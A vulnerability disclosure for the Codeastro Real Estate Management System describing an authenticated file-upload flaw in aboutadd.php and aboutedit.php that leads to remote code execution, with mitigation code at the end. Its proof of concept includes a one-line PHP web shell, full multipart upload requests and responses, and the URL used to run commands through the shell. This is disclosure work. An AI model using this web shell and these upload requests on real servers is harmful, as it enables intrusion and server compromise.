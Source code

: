 ## Vulnerability Details:
- **Application Name**: Codeastro Real Estate Management System 
- **Software Link**: [Download Link](https://codeastro.com/real-estate-management-system-in-php-with-source-code/)
- **Vendor Homepage**: [Vendor Homepage](https://codeastro.com/)
- **BuG**: Arbitrary Authenticated File Upload Leading to Remote Code Execution (RCE)
- **BUG_Author**: egsec

## About project:
In particular, this Real Estate Management System Project in PHP focuses mainly on publishing and viewing properties. To be more precise, the system helps to keep a number of sales and rental properties.

## Vulnerability Description:
- The vulnerability arises from the lack of proper file validation and authentication checks in the file upload mechanism of the application. Both `/aboutadd.php` and `/aboutedit.php` endpoints allow authenticated admin to upload image files intended for the "About Page". However, the system does not properly validate the content type or check for the file's executable nature. As a result, an attacker could upload a malicious file (such as a PHP reverse shell) disguised as a legitimate image. Once the file is uploaded, the server processes it without detecting its harmful nature. This allows attackers to execute arbitrary code on the server, potentially leading to remote code execution (RCE).

## Vulnerable Code Section:
- for `/aboutadd.php`:
```php
<?php
...
$aimage=$_FILES['aimage']['name'];
$temp_name1 = $_FILES['aimage']['tmp_name'];
move_uploaded_file($temp_name1,"upload/$aimage");
...
?>
```
- for `/aboutedit.php`:
```php
<?php
...
$aimage=$_FILES['aimage']['name'];
$temp_name1 = $_FILES['aimage']['tmp_name'];
move_uploaded_file($temp_name1,"upload/$aimage");
...
?>
```

- Lack of File Type Validation: The code does not verify that the uploaded file is an actual image (e.g., by checking its MIME type or extension). This allows an attacker to upload files with executable code (such as a PHP reverse shell).

- Direct Use of File Name: The variable $aimage uses the original file name provided by the user, which is then directly moved into the upload/ directory. An attacker could upload a file like shell.php, which would then be accessible via the web server as /upload/shell.php, enabling them to execute code.

## Proof of Concept (PoC):
- create malicious file like shell.php
- write in the file this payload in order to execute the commands: `<?php system($_GET['cmd']);?>`
- go to the these pages for uploading file => `http://localhost/RealEstate-PHP/admin/aboutadd.php` and `http://localhost/RealEstate-PHP/admin/aboutedit.php?id=<page_id>`

![aboutadd](https://github.com/user-attachments/assets/77bc6064-058c-4f50-9f57-c1c2806a359c)

![aboutedit](https://github.com/user-attachments/assets/b80b255f-5287-46ab-8854-e3441eefae42)

- upload the malicious file (shell.php)
- after submitting, shell.php will be uploaded to the `http://localhost/RealEstate-PHP/admin/upload/` directory
- request to the shell.php file and get the shell => `http://localhost/RealEstate-PHP/admin/upload/shell.php?cmd=<command>`
- after executing "dir" command (for windows machnine), the files will be listed in the relevant directory:

![image](https://github.com/user-attachments/assets/2c058aa1-a374-4dec-95d2-c7b985a19391)

- request for `/aboutadd.php`:
```python
POST /RealEstate-PHP/admin/aboutadd.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------223874015127163847964204694679
Content-Length: 627
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/RealEstate-PHP/admin/aboutadd.php
Cookie: PHPSESSID=2k9gqipambd24c5lfpn99bcseu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="title"

test
-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="aimage"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']);?>

-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="content"

<p>test</p>
-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="addabout"

Submit
-----------------------------223874015127163847964204694679--
```
- response for `/aboutadd.php`:
```python
HTTP/1.1 200 OK
Date: Wed, 06 Nov 2024 19:26:20 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 9083
```

- request for `/aboutedit.php`:
```python
POST /RealEstate-PHP/admin/aboutedit.php?id=11 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------291824796116344584804150147564
Content-Length: 625
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/RealEstate-PHP/admin/aboutedit.php?id=11
Cookie: PHPSESSID=2k9gqipambd24c5lfpn99bcseu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="utitle"

asd
-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="ucontent"

<p>asd</p>
-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="aimage"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']);?>

-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="update"

Submit
-----------------------------291824796116344584804150147564--
```
- response for `/aboutedit.php`:
```python
HTTP/1.1 302 Found
Date: Wed, 06 Nov 2024 19:33:25 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: aboutview.php?msg=<p class='alert alert-success'>About Updated</p>
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 9337
```
## Impact:
This vulnerability allows attackers to upload and execute arbitrary code on the server. The consequences of successful exploitation include:

    Unauthorized remote code execution on the server
    Potential access to sensitive system information or data
    Compromise of the server and other connected systems
    Escalation of privileges, depending on the attacker’s access level

## Mitigation:
- Verify that the uploaded file is an image by checking its MIME type and extension. For example:
```php
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
$file_type = mime_content_type($temp_name1);

if (!in_array($file_type, $allowed_types)) {
    die("Error: Only JPG, PNG, and GIF files are allowed.");
}
```
- Attackers can bypass file type checks by renaming malicious files with image extensions (e.g., .jpg). To enhance security, validate the file extension:
```php
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$file_extension = pathinfo($aimage, PATHINFO_EXTENSION);

if (!in_array($file_extension, $allowed_extensions)) {
    die("Error: Invalid file extension.");
}
```

